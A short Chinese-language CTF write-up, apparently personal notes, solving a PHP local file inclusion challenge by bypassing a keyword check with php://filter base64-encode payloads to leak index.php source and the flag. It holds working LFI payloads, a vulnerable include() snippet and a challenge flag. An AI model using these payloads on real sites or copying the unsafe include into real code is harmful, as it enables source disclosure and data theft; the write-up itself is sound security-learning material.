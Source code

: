![[Pasted image 20221115084857.png]]

---
首页长这样

![[Pasted image 20221115084917.png]]

按下`WOOFERS`后访问
```php
/index.php?category=woofers
```
并且随机显示一张小狗的图片

![[Pasted image 20221115085147.png]]

按下`MEOWERS`后访问
```php
/index.php?category=meowers
```
并且随机显示一张小猫的图片

![[Pasted image 20221115085322.png]]

---
尝试对`category`进行修改
```php
/index.php?category=123
```
> Sorry, we currently only support woofers and meowers.

```php
/index.php?category=1woofers
```
  
> **Warning**: include(1woofers.php): failed to open stream: No such file or directory in **/var/www/html/index.php** on line **37**  
  
> **Warning**: include(): Failed opening '1woofers.php' for inclusion (include_path='.:/usr/local/lib/php') in **/var/www/html/index.php** on line **37**

说明`category`的参数会经过一次是否包含`woofers`或`meowers`的检查，接着被加上`.php`后缀传给`include`函数进行包含

---
尝试使用`%00`进行截断
```php
/index.php?category=flag.php%00woofers
```
> **Warning**: include(): Failed opening 'flag.php' for inclusion (include_path='.:/usr/local/lib/php') in **/var/www/html/index.php** on line **37**

发现并不能读取到

尝试使用`php://filter`伪协议对`index.php`进行读取

使用一个`php://filter`伪协议的`trick`
```php
/index.php?category=php://filter/read=convert.base64-encode/write=woofers/resource=index
```

返回了`base64`编码后的`index.php`
```php

<?php
$file = $_GET['category'];

if(isset($file))
{
	if(strpos($file, "woofers") !== false || strpos($file, "meowers") !== false || strpos($file, "index")){
		include ($file . '.php');
	}
	else{
		echo "Sorry, we currently only support woofers and meowers.";
	}
}
?>
```
和预想的后端实现一致，不过`index`不出现在第一个位置上就不会被ban，所以上面的`trick`其实可有可无

尝试直接读取`flag.php`
```php
/index.php?category=php://filter/read=convert.base64-encode/write=woofers/resource=flag
```

```php
<!-- Can you read this flag? -->
<?php
 // flag{a8e44af0-53eb-441c-b549-8a5a50523ffe}
?>
```
终于做到水题啦QwQ

#PHP #Web #伪协议 #绕过 #编码 #LFI 